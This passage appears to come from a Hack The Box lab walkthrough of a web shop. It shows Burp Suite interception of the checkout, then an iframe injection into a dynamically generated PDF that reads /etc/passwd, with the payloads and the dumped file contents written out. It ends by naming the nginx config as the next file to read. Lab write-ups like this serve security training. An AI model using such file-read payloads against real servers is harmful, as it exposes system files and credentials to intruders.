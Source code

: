 ![image](https://github.com/Arcsin00/HTB-Walkthroughs/assets/110564012/02b8ba42-02b8-4be7-9825-aaab80f20a1e)


Request the response in the browser and turn intercept off if its still enabled. We are now logged into the page and redirected to /stock which lists products that can be purchased. Add something to the cart and check out, intercept this traffic with burpsuite proxy.

![image](https://github.com/Arcsin00/HTB-Walkthroughs/assets/110564012/aa87ca49-0552-461a-a1b9-bdb1ee45b0f5)


Remote File Inclusion
---------------------

Submitting the purchase will generate a PDF document that can be accessed via API. I tried a bunch of payloads here and ran into a dead end. Eventually I searched pdf on the hacktricks website and found this article. [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf). Try each of the fields, the title field appears to be vulnerable.

Test for LFI/RFI by requesting the /etc/passwd file.

```text-plain
<iframe src=file:///etc/passwd></iframe>
```

This worked! In order to read the file increase the size of the frame.

```text-plain
<iframe src=file:///etc/passwd width=100% height=1000></iframe>"
```

![image](https://github.com/Arcsin00/HTB-Walkthroughs/assets/110564012/04588c7a-2382-4378-aa10-2a1acbd9cdda)


```text-plain
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/no login systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin landscape:x:109:116::/var/lib/landscape:/usr/sbin/nol ogin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin angoose:x:1001:1001:,,,:/home/angoose:/bin/bash _laurel:x:998:998::/var/log/laurel:/bin/false
```

Next look for the nginx config file in the standard location /etc/nginx/nginx.conf

